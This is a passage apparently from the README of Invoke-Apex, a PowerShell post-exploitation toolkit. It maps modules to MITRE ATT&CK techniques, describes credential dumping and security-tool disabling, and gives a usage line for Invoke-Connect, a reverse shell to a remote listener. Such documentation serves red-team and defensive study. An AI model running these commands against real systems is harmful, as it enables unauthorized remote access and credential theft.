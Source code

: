  |------------------------------------------------------------------|
 |           ### MITRE ATT&CK TECHNIQUE REFERENCE ###               |
 |------------------------------------------------------------------|

 <...snip...>

   Module: Invoke-Creds
   --------------------
   Mitre ATT&CK Ref: T1056 (Input Capture)
   Mitre ATT&CK Ref: T1081 (Credentials in Files)
   Mitre ATT&CK Ref: T1003 (Credential Dumping)
   
   
   Module: Invoke-DefenderTools
   ----------------------------
   Mitre ATT&CK Ref: T1211 (Exploitation for Defense Evasion)  
   Mitre ATT&CK Ref: T1089 (Disabling Security Tools)  
   
   
   Module: Invoke-Download
   -----------------------
   Mitre ATT&CK Ref: T1105 (Remote File Copy)   
   
   
   Module: Invoke-Execute
   ----------------------
   Mitre ATT&CK Ref: T1086 (PowerShell)                            
   Mitre ATT&CK Ref: T1085 (Rundll32)                              
   Mitre ATT&CK Ref: T1047 (Windows Management Instrumentation)    
   Mitre ATT&CK Ref: T1220 (XSL Script Processing)                 
   Mitre ATT&CK Ref: T1028 (Windows Remote Management)             
   Mitre ATT&CK Ref: T1218 (Signed Binary Proxy Execution)  

<...snip...>
```

You can also lookup which [Mitre ATT&CK](https://attack.mitre.org/) techniques are in use, and in which modules with the ```-Tid``` parameter and specifying a Mitre ATT&CK Technique ID as a value:

```PS> Invoke-MitreReference -Tid 1352```
```
PS> Invoke-MitreReference -Tid 1352

   Modules using Mitre ATT&CK Ref: T1352 (C2 Protocol Development):

   [+] Module: Invoke-Connect
   
```

# Available Functions / Commands

## Invoke-Apex
```Invoke-Apex``` (Lists all available functions)

## Invoke-Connect
Transfers all Apex functionality to a remote SSL listener, and also functions as a non-interactive powershell reverse "shell" if invoked as a stand-alone cmdlet. (SSL-enabled listener is required)

![screenshot](https://raw.githubusercontent.com/securemode/Invoke-Apex/master/img/Invoke-Connect.png)

Usage: ```PS> Invoke-Connect -ListenerIp 192.168.1.1 -ListenerPort 443```

## Invoke-Creds
Several commands to assist in obtaining credentials from the target host.

#### Available Commands:

```-WiFiCreds```  (Dumps saved Wireless Credentials)

```